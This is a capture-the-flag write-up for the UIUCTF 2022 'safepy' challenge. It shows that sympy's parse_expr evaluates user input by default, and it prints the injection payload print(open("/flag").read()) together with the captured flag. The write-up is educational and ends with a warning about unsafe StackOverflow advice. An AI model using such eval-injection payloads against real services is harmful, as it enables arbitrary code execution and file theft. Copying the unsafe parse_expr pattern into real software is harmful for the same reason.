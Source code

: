 # UIUCTF 2022 - safepy Writeup
- Type - Jail
- Name - safepy
- Points - 50

## Description
```markdown
My calculator won't be getting pwned again...

$ nc safepy.chal.uiuc.tf 1337

author: tow_nater

[handout.tar.gz]
```

## Writeup
When you unzip the provided file for the challenge, you'll get the Python script run server-side along with some supporting files for the Docker setup. Outside of [line 28 of the Dockerfile](Dockerfile) that shows the flag is located at `/flag`, the only useful file is `main.py`. The script is pretty short:

```python
from sympy import *

def parse(expr):
    # learned from our mistake... let's be safe now
    # https://stackoverflow.com/questions/33606667/from-string-to-sympy-expression
    # return sympify(expr)

    # https://docs.sympy.org/latest/modules/parsing.html
    return parse_expr(expr)

print('Welcome to the derivative (with respect to x) solver!')
user_input = input('Your expression: ')
expr = parse(user_input)
deriv = diff(expr, Symbol('x'))
print('The derivative of your expression is:')
print(deriv)
```

Our input is taken, parsed using `parse_expr`, and then stuck into the `diff` function with the output printed out. The `parse()` function gives us two very helpful links, [one](https://docs.sympy.org/latest/modules/parsing.html) to the documentation and [another](https://stackoverflow.com/questions/33606667/from-string-to-sympy-expression) about why `sympify` is dangerous. Reading through this article gave me an idea for how to approach this - `sympify` used `eval()` internally, so if I could get either `diff` or `parse_expr` to do the same, that would be great! 

While reading through the documentation provided, I read that an optional parameter for `parse_expr` was `evaluate`, with the default setting to True. This means that, by default, any expressions will be simplified if possible, which means it will use `eval()` inside of it. 

I started out with a test payload to see what it would do if I just input whatever code I wanted to - `print('a')`:

```
$ nc safepy.chal.uiuc.tf 1337
== proof-of-work: disabled ==
Welcome to the derivative (with respect to x) solver!
Your expression: print('a')
a
```

Since it looked like it ran the code, I decided to just put in a payload to print out the flag:

```
nc safepy.chal.uiuc.tf 1337
== proof-of-work: disabled ==
Welcome to the derivative (with respect to x) solver!
Your expression: print(open("/flag").read())
uiuctf{na1v3_0r_mal1ci0u5_chang3?}
```

And it worked!!

**Flag:** `uiuctf{na1v3_0r_mal1ci0u5_chang3?}`

## Real-World Application
My favorite part of this challenge is the real world application. This entire question was completely based off of a StackOverflow answer, and - as everyone knows - StackOverflow is the *source* for all programming information. This particular answer was from someone who said putting user-controlled input to `sympify()` is dangerous since it uses `eval` natively, so the `parse_expr` function should be used instead (implying this one was safe). As our problem demonstrated, that was **not** the case - `parse_expr` was just as dangerous as `sympify`. Did the user who submitted this answer know this? Not sure. But the moral of the story is **you can't always trust answers from random people on the internet**...